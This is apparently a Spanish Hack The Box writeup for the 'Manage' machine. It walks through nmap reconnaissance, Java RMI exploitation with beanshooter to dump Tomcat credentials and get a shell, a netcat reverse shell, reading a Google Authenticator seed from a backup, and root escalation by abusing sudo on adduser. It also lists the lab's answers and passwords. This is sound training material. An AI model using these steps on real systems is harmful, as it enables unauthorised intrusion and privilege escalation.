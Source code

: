 ```yaml
---
title: Writeup manage - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - manage
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina manageen Hack The Box.
keywords:
  - writeup manage
  - hack the box manage
  - resolución máquina manage
  - manage hack the box
  - htb manage
---
```

-------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Manage)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=sGt3MYYg0xs)
- 🧠 **Explicación resumida**: 

---

#nmap #ping #easy #linux #whatweb #wappalyzer  #git #gitclone #java #beanshooter #tomcat #nc-nlvp443 #tratamientotty #mkdir #cd #cp #tar #sudo #cat #ls #sudo-l #sudo #abusobinarioadduser #gzip #tar  

-----
# Guided Mode

1)¿Cuántos puertos TCP abiertos están a la escucha en Manage?
	3

2)¿Qué servicio identifica nmap como activo en el puerto 2222?
	java-rmi

3)¿Cuál es la contraseña del usuario administrador del servidor Tomcat?
	fhErvo2r9wuTEYiYgt

4)¿Qué usuario ejecuta el servidor Tomcat y el servicio RMI en Manage?
	tomcat

*La pregunta anterior es la flag de user.txt*
6)¿Cuál es la ruta completa al archivo de copia de seguridad que el usuario tomcat puede leer?
	/home/useradmin/backups/backup.tar.gz

7)¿Cómo se llama el archivo que contiene los valores iniciales de la autenticación de dos factores y los códigos de respaldo?
	.google_authenticator

8)¿Cuál es la contraseña del usuario useradmin en Manage?
	onyRPCkaG4iX72BrRtKgbszd

9)¿Qué binario puede ejecutar useradmin como cualquier usuario sin contraseña?
	/usr/sbin/adduser

10)¿Qué usuario, al crearse, genera un grupo que ya está asignado como grupo privilegiado?
	admin

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

Se puede utilizar la version automatizada que tenemos creada con [[startlab]] o si no de forma manual

```shell
ping -c 1 IP
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn IP -oG allPortsTCP
extractPorts allPortsTCP
nmap -sCV -pPuertos IP -oN targetTCP
nmap -sU -n -Pn --top-ports 200 IP -oG allPortsUDP
extractPorts allPortsUDP
nmap -sU -sCV -pPuertos IP -oN targetUDP
```

El escaneo de nmap da estos errores, pero no darle importancia ya que al final nos reporta la info que necesitamos
![[Manage1.png]]
*TTL:* Maquina Linux

*Puertos TCP:*
	`22` [[ssh]]
	`2222` y `45171` java-rmi 
	`8080` HTTP Tomcat
	`35179` TCPwrapped

*Puertos UDP:*
	Nada relevante
	
![[Manage5.png]]
![[Manage4.png]]

![[Manage6.png]]


-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.234.57:8080/
```

![[Manage2.png]]

![[Manage3.png]]
Nos da que es la version 10.1.19 de tomcat

-----
# Intrusion con [[beanshooter]]

Vamos a usar [[git clone]] para descargar el repositorio con el comando `git clone https://github.com/qtc-de/beanshooter` despues nos metemos con [[cd]] a la carpeta usando `cd beenshooter` y vamos a compilar con `mvn package`

![[Manage10.png]]

Dentro de la carpeta *beanshooter-4.1.0/target* se va a crear el ejecutable asi que vamos a abrirlo y que nos enumere poniendo la ip de la maquina victima y el puerto `java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.129.234.57 2222`

![[Manage11.png]]

![[Manage12.png]]
Nos da estas dos credenciales

```
manager:fhErvo2r9wuTEYiYgt
admin:onyRPCkaG4iX72BrRtKgbszd
```


### Antes de ejecutar la parte de tonka 

Esto lo hice por que me aparecia un error que no tenia el  archivo tonka-bean-4.1.0-jar-with-dependencies.jar
Asi que fui a */beanshooter-4.1.0/tonka-bean/target* y ahi ejecute el comando `mvn package`

![[Manage13.png]]

Ahora esto para ejecutar el tonka y que a posteriori podamos obtener la shell `java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.129.234.57 2222 tonka`
![[Manage14.png]]

Ejecutamos el comando que nos va a dar una shell `java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.129.234.57 2222`
![[Manage15.png]]
y ahora vamos a enviarnos una [[Reverse shell]] con una bash para trabajar mas comodos mientras estamos en escucha con [[nc -nlvp 443]]

![[Manage16.png]]
![[Manage17.png]]


---
# [[Tratamiento de la TTY]]

------
# Escalada de privilegios al usuario useradmin

Vamos al home para ver los otros usuarios y entramos a la carpeta de *useradmin*. Listamos con [[ls]] los archivos y vemos que tenemos un archivos que se llama *backup.tar.gz*

![[Manage18.png]]

Vamos a ir a la carpeta tmp con con [[cd]] usando `cd tmp` para estar mas comodos, luego vamos a crear una carpeta con [[mkdir]] usamos el comando `mkdir exploit` luego entramos a la carpeta con `cd exploit` y ahora vamos a copiar el archivo con [[cp]] usando el comando `cp /home/useradmin/backups/backup.tar.gz .`

![[Manage19.png]]

Ahora descomprimimos el archivo usando [[gzip]] usando `gzip -d backup.tar.gz` y vemos que nos queda solamente un archivo *backup.tar*
![[Manage20.png]]

Descomprimimos el archivo usando [[tar]] con el comando `tar xf backup.tar` y luego vamos a ver los contenido del comprimido con `tar tf backup.tar`
![[Manage21.png]]
Como empiezan con *.* los archivos no nos van a aparecer asi que usamos [[ls]] con el comando `ls -la` y nos van a aparecer todos los archivos
Ahora con [[cat]] vamos a abrir `cat .google_authenticator`
![[Manage22.png]]

Nos vamos a meter al usuario de *useradmin* con el comando `su useradmin`, vamos a proporcionar la contraseña del usuario *admin* que teniamos de antes `onyRPCkaG4iX72BrRtKgbszd` y en el codigo de verificacion vamos a poner `99852083``que lo sacamos del archivo de autentificacion de google

---------

# Escalada de privilegios a root con [[Abuso de Sudo]] con [[Binario adduser]]

```shell
sudo -l
```
Y vemos que podemos ejecutar sin proporcionar contraseña el binario

```
(ALL : ALL) NOPASSWD: /usr/sbin/adduser
```


Usamos ``sudo /usr/sbin/adduser admin`` para agregar al usuario admin que no esta creado y con eso ya vamos a tener permisos de root
La verdad que el usuario lo saque por las preguntas del guidedmode, y fuerza bruta de ir probando
![[Manage23.png]]
![[Manage24.png]]

Ya podemos catear la flag
![[Manage25.png]]

------
# Notas

Ver como armar regex con find

La primera pregunta en hackthebox me dice que son 3 puertos nada mas abiertos, con lo cual hice pruebas con el comando que da `nmap -sC -sV` en la hint y son nada mas el 8080,22,2222

Siempre que veo archivos con . al inicial del nombre poner ls -la